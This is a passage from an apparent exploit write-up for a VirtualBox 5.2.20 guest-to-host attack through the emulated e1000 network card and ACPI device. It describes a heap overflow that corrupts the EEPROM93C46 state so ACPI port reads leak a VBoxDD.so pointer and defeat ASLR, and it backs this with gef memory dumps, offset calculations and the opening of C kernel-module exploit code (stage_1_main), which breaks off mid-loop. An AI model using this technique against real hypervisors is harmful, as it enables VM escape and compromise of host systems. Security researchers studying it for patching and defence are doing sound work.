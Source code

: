 When the guest OS executes INB(0x4107) instruction to read one byte from the port, the handler takes one bytes from au8SMBusBlkDat[32] array at u8SMBusBlkIdx index and returns it to the guest. And this is how to apply the write primitive: since the distance between virtual device heap blocks are constant, so is the distance from EEPROM93C46.m_au16Data array to ACPIState.u8SMBusBlkIdx. Writing two bytes to ACPIState.u8SMBusBlkIdx we can read arbitrary data in the range of 255 bytes from ACPIState.au8SMBusBlkDat.

There is an obstacle. Having a look to ACPIState structure it can be seen that the array is placed at the end of the structure. The remaining fields are useless to leak. So let's look what can be found after the structure:

```
gef➤  x/16gx (ACPIState*)(0x7fc47008be70+0x100)+1
0x7fc47008d4e0:	0xffffe98100000090	0xfffd9b2000000000
0x7fc47008d4f0:	0x00007fc470067a00	0x00007fc470067a00
0x7fc47008d500:	0x00000000a0028a00	0x00000000000e0000
0x7fc47008d510:	0x00000000000e0fff	0x0000000000001000
0x7fc47008d520:	0x000000ff00000002	0x0000100000000000
0x7fc47008d530:	0x00007fc47008c358	0x00007fc44d6ecdc6
0x7fc47008d540:	0x0031000035944000	0x00000000000002b8
0x7fc47008d550:	0x00280001d3878000	0x0000000000000000
gef➤  x/s 0x00007fc44d6ecdc6
0x7fc44d6ecdc6:	"ACPI RSDP"
gef➤  vmmap VBoxDD.so
Start                           End                             Offset                          Perm Path
0x00007fc44d4f3000 0x00007fc44d768000 0x0000000000000000 r-x /home/user/src/VirtualBox-5.2.20/out/linux.amd64/release/bin/VBoxDD.so
0x00007fc44d768000 0x00007fc44d968000 0x0000000000275000 --- /home/user/src/VirtualBox-5.2.20/out/linux.amd64/release/bin/VBoxDD.so
0x00007fc44d968000 0x00007fc44d977000 0x0000000000275000 r-- /home/user/src/VirtualBox-5.2.20/out/linux.amd64/release/bin/VBoxDD.so
0x00007fc44d977000 0x00007fc44d980000 0x0000000000284000 rw- /home/user/src/VirtualBox-5.2.20/out/linux.amd64/release/bin/VBoxDD.so
gef➤  p 0x00007fc44d6ecdc6 - 0x00007fc44d4f3000
$2 = 0x1f9dc6
```

It seems there is a pointer to a string placed at a fixed offset from VBoxDD.so image base. The pointer lies at 0x58 offset at the end of ACPIState. We can read that pointer byte-by-byte using the primitives and finally obtain VBoxDD.so image base. We just hope that data past ACPIState structure is not random on each virtual machine boot. Hopefully, it isn't; the pointer at 0x58 offset is always there.

#### Information Leak
Now we combine write and read primitives and exploit them to bypass ASLR. We will overflow the heap overwriting EEPROM93C46 structure, then trigger EEPROM finite automaton to write the index to ACPIState structure, and then execute INB(0x4107) in the guest to access ACPI to read one byte of the pointer. Repeat those 8 times incrementing the index by 1.

```c
uint64_t stage_1_main(void* mmio, void* tx_ring) {
    printk(KERN_INFO PFX"##### Stage 1 #####\n");

    // When loopback mode is enabled data (network packets actually) of every Tx Data Descriptor 
    // is sent back to the guest and handled right now via e1kHandleRxPacket.
    // When loopback mode is disabled data is sent to a network as usual.
    // We disable loopback mode here, at Stage 1, to overflow the heap but not touch the stack buffer
    // in e1kHandleRxPacket. Later, at Stage 2 we enable loopback mode to overflow heap and 
    // the stack buffer.
    e1000_disable_loopback_mode(mmio);

    uint8_t leaked_bytes[8];
    uint32_t i;
    for (i = 0; i < 8; i++) {
```